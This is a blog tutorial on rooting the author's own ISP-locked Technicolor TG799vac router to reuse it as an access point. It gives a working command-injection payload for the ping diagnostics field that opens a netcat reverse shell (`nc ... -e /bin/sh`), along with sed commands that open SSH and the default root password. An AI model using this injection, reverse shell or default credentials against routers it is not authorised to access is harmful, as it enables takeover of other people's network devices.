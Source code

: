 ```yaml
---
title: "Getting root access to your Technicolor TG799vac Xtream (Crimson (15.4))"
date: 2018-07-25
categories: "Other"
---
```

## Intro
Today, I received a free Technicolor TG799vac Xtream router from my ISP, which seems to have quite decent hardware according to my google-fu. I already have a router (two technically speaking), so I have no real need for it. But I have a way it might come to use.

See, currently I have one router without any radio, which I use as my main gateway and router. This is a really nice machine for the most part, so I really like having it for that purpose.  But since I also need WiFi at home, I have my old router which only runs as an access point, forwarding all traffic to my router. Since this AP is upstairs, it wouldn't be too bad having another AP downstairs, maybe somewhere where it gives better WiFi to my garden or garage. This is the idea at least.

Sadly, my ISP has locked the new router down. Making it not possible to put it any kind of AP-only/bridge mode. Fortunately, the security for the device seems shitty, making it easy to get root access through the web interface.

## Steps to gain shell root access
1. Connect to the router's network  
2. Start listening with netcat on your favourite port - `nc -l 8080`  
3. Log in to the web interface with the information you received from your ISP - in my case it's located at http://192.168.10.1 and the username is *admin*  
4. Go to the *Diagnostics Ping & Traceroute* card  
5. Under *Ping Statistics*, Set *IP Address* to `:::::::;nc 192.168.10.216 8080 -e /bin/sh` and press *Send Ping Request*  
6. Back to the netcat window, here you should have root access to an ash-shell, even though nothing is visible right now. Type any command, like`ls`, to confirm.  
7. Since these kind of reverse-shells are a pain to work in, the first step is getting access to ssh.
Luckily, there should be one installed, though blocked for you.
To see the configuration, type `cat /etc/config/dropbear`. Mine looked like this:  

```
config dropbear
    option PasswordAuth 'off'
    option RootPasswordAuth 'on'
    option Port '22'
    option Interface 'wan'
#this statement in itself is not working, need FW rule:
    option AllowedClientIPs '195.54.114.216/29 195.54.106.0/28 195.54.106.144/28'
    option enable '1'

#config dropbear
#        option PasswordAuth     'on'
#        option RootPasswordAuth 'on'
#        option Port             '22'
#        option Interface        'lan'
#        option enable '1'
```
Here we see that the router is completely open to people from some ip-ranges from WAN, but closed to you. In fact the complete opposite from what we want. If you have exactly the same configuration, you have fix it by running `sed -i -e '1,9 d' -e's/#//' /etc/config/dropbear`. You want to end up with something like this:
```
config dropbear
        option PasswordAuth     'on'
        option RootPasswordAuth 'on'
        option Port             '22'
        option Interface        'lan'
        option enable '1'
```
8. Restart dropbear - `/etc/init.d/dropbear restart`  
9. Connect through ssh from another shell - `ssh root@192.168.10.1`, username and password is *root*. TADA

```
The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.
RSA key fingerprint is SHA256:ZEP4kdhhGqvYO4cNN3aAkXUXs+MPHMA2fpv1WlL7O90.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.10.1' (RSA) to the list of known hosts.
root@192.168.10.1's password:


BusyBox v1.19.4 (2016-12-23 11:07:18 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

-----------------------------------------------------------------------
                        ##
                   #########
                 ###########
                #########
               ####                      ##
              ##          ##             ##
      ###########        #####   ####    ##    ####    ## ###     ####    ## ##
   ########   #####       ##   ##    ##  ##  ##    ##  #######  ##    ##  #####
  ########    #######     ##   ##    ##  ##  ##    ##  ##   ##  ##    ##  ###
########      ########    ##   ########  ##  ########  ##   ##  ##    ##  ##
#######        ########   ##   ##        ##  ##        ##   ##  ##    ##  ##
######         #########  ####  ######   ###  ######   ##   ##    ####    ##
  ##            #########
                #########
                 ########
                  #######
                   #####
-----------------------------------------------------------------------

Product: vant-w_telenor_r15-4
Release: Crimson (15.4)
Version: 15.53.7451-1761003-20170320115330
```  
10. (Optional) Put your own rsa-key in */etc/dropbear/authorized_keys* and remove password login from */etc/config/dropbear*  

## What now
Now, it seems like the real OS is openwrt, meaning opkg is installed, which in turn can be used to install whatever you need. It also seems possible to unlock more cards on the web interface through the config in /etc/config. I might update this guide with some more info on this later.

